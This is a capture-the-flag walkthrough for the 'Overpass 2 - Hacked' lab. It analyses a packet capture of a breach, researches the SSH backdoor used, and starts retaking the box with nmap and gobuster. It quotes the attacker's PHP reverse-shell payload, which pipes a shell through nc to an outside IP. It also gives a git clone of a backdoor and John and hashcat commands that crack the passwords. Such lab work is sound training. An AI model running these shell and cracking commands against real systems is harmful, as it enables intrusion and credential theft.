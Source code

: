 # Overpass 2 - Hacked
* SOC team noticed suspicious activity on late night shift.
* Packets captured as attack happened.
## Forensics - Analyse the PCAP
1. What was the URL of the page they used to upload a reverse shell?
   * Follow TCP Stream (`tcp.stream eq 1`).
```
POST /development/upload.php HTTP/1.1
```
2. What payload did the attacker use to gain access?
   * Follow TCP Stream (`tcp.stream eq 1`).
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
3. What password did the attacker use to privesc?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
[sudo] password for james: whenevernoteartinstant
```
4. How did the attacker establish persistence?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
   1. Copy and paste exposed shadow file from PCAP `tcp.stream eq3` into "shadow" file.
   2. Run JtR against shadowfile.
```
john --wordlist=/usr/share/wordlists/fasttrack.txt shadow
[...snip...]
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)
[...snip...]
```
## Research - Analyse the code
1. What's the default hash for the backdoor?
   * [ssh-backdoor GitHub respository](https://github.com/NinjaJc01/ssh-backdoor) lists hash within "hash" variable in "main.go" code.
3. What's the hardcoded salt for the backdoor?
   * [ssh-backdoor GitHub respository](https://github.com/NinjaJc01/ssh-backdoor) lists salt within "passwordHandler" function in "main.go" code.
5. What was the hash that the attacker used? - go back to the PCAP for this!
   * Follow TCP Stream (`tcp.stream eq 3`).
```
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
7. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
* Copy and paste hash into "hash" file.
  * Suffix the hash with `:` then the salt.
* "ssh-backdoor" backdoor has "hashPassword" function within "main.go" code shows hashing algorithm is salted SHA512.
```
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
* Search for SHA512 password+hash format on [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).
```
1710 	sha512($pass.$salt) 
```
* Run hashcat against hash.
  * `-m` specifies the hash type.
  * `-a` specifies the attack type.
    * `0` is straight attack type. 
```
hashcat -m 1710 -a 0 hash /usr/share/wordlists/rockyou.txt

[...snip...]
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1710 (sha512($pass.$salt))
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Tue Mar  5 16:48:43 2024 (1 sec)
Time.Estimated...: Tue Mar  5 16:48:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   228.0 kH/s (0.06ms) @ Accel:59 Loops:1 Thr:1 Vec:2
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 17228/14344385 (0.12%)
Rejected.........: 0/17228 (0.00%)
Restore.Point....: 16992/14344385 (0.12%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: yomisma -> october19
Hardware.Mon.#1..: Util: 21%

Started: Tue Mar  5 16:48:25 2024
Stopped: Tue Mar  5 16:48:45 2024
```
## Attack - Get back in!
* Paradox needs someone to take control of the Overpass production server again.
* There's flags on the box that Overpass can't afford to lose by formatting the server!
2. What's the user flag?
3. What's the root flag?

### Nmap scan
```
nmap -Pn -sC -p- -sV -oN TARGET_IP_scan.nmap TARGET_IP

map scan report for 10.10.75.252                                                                                         
Host is up (0.026s latency).                                                                                             
Not shown: 65532 closed tcp ports (conn-refused)                                                                         
PORT     STATE SERVICE VERSION                                                                                           
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                      
| ssh-hostkey:                                                                                                           
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)                                                           
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)                                                          
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)                                                        
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                    
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                             
|_http-title: LOL Hacked                                                                                                 
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)                                                             
| ssh-hostkey:                                                                                                           
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Detect hidden directories using GoBuster
```
gobuster dir --url http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt > gobuster.txt

/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/aboutus              (Status: 301) [Size: 314] [--> http://10.10.75.252/aboutus/]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.75.252/css/]
/downloads            (Status: 301) [Size: 316] [--> http://10.10.75.252/downloads/]
/img                  (Status: 301) [Size: 310] [--> http://10.10.75.252/img/]
/index.html           (Status: 200) [Size: 815]
/server-status        (Status: 403) [Size: 277]
```
### Browse to webserver on port 80
1. The attacker defaced the website. What message did they leave as a heading - "H4ck3d by CooctusClan"

